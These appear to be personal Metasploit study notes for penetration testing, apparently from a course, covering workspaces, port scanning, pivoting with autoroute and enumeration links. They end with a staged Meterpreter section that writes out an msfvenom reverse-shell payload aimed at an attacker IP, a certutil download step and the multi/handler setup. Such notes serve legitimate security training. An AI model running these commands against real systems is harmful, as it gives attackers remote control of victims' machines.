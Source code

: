 

### workspaces
-a add
-d delete
-r rename
workspace and name will activate

Can import nmap scans into metasploit as well
-db_import nmap scan

### scanning/pivot
> Video is in [url](https://my.ine.com/CyberSecurity/courses/06040120/host-network-penetration-testing-the-metasploit-framework-msf) under enumeration and Port Scanning with Aux Modules
>this is good to use as you scan get meterpreter session and then run scan via metasploit scanning from other PC

```
search portscan
```
this will return different scans that are possible

```
use scanner/portscan/tcp
```

Once on target machine, open `shell` to get subnet information. run ifconfig from machine. to find the second IP of different subnet. #pivot

Next add the route in meterpreter session
```
run autoroute -s <ip address>
```

This can be just the IP or an entire subnet. Once that's done background the session and perform new scan on new machine/subnet
In new session open another port scan and set rhosts to new IP address/subnet and scan away


### FTP Enumeration
See [services](obsidian://open?vault=cheatsheet&file=Services%2Fftp%20and%20sftp) section

### SMB Enumeration
See [services](obsidian://open?vault=cheatsheet&file=Services%2FSamba%20or%20SMB)]

### HTTP Enum
See [services](obsidian://open?vault=cheatsheet&file=Services%2Fhttp)

### MySQL
See [services](obsidian://open?vault=cheatsheet&file=Services%2FMySQL)

### ssh
See [services](obsidian://open?vault=cheatsheet&file=Services%2Fssh)

### SMTP
See [services](obsidian://open?vault=cheatsheet&file=Services%2FSMTP)

### vulnerability scanning

metasploit-autopwn <- found on github. Automatically finds vulns based on scan internal to msf

Suggest move to `/usr/share/metasploit-framework/plugins`

To use: `load db_autopwn`

*Note: tool is depreciated and might not work as expected*

###  staged meterpreter session

Using #msfvenom to create #meterpreter session. reverse payload
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACK IP> LPORT=4444 -f exe > meterpreter.exe
```

After created move the file over to the system. Can use python http server module then use:
Python web server `python -m SimpleHTTPServer 80`
Windows: `certutil -urlcache -f http://<IP>/<filename> <output filename>`

Next setup handler with msfconsole
`use multi handler` and complete options, run. this is similar to nc -lvnp. Can create via `rc` file and then load into msfconsole
`use multi/handler`
`set payload windows/meterpreter/reverse_tcp`
`set LHOST <attack IP>`
`set LPORT 4444`


10.10.5.4